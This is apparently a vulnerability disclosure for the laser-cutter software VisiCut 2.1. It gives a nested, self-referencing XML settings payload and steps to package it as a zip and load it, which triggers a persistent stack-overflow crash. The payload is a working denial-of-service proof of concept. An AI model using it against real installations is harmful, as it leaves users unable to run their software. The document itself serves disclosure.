 # VisiCut V2.1 Stack Overflow due to Insecure Deserialization
Affected Version: <= v2.1(latest stable release version)

Application: [Here](https://github.com/t-oster/VisiCut/releases/tag/2.1)



## Insecure Deserialization Vulnerability
```php
<set>
  <set>
    <set>
      <set>
        <set>
          <set>
            <set>
              <string>a</string>
            </set>
            <set>
              <string>b</string>
            </set>
          </set>
          <set>
            <string>c</string>
            <set reference='../../../set/set[2]'/>
          </set>
        </set>
      </set>
    </set>
  </set>
</set>
```
After saving the above code as settings.xml file, put it into a folder named **settings**, and package the folder into a zip file. Double-click **VisiCut.exe** to start the software, and click "**FromFile**" in the interface to upload the zip file to trigger the stack overflow vulnerability.



## Exploit

Double-click **VisiCut.exe** to start the software, and click "**FromFile**" in the interface to upload the zip file.

![image-20241024213639889](img/image-20241024213639889.png)

![image-20241024213656146](img/image-20241024213656146.png)



**The stack overflow vulnerability occured.**

![image-20241024213707874](img/image-20241024213707874.png)

![image-20241024213721299](img/image-20241024213721299.png)



**If you try to start the application again, the stack overflow vulnerability will continue to be triggered and you will not be able to use the software again.**

![image-20241024213832246](img/image-20241024213832246.png)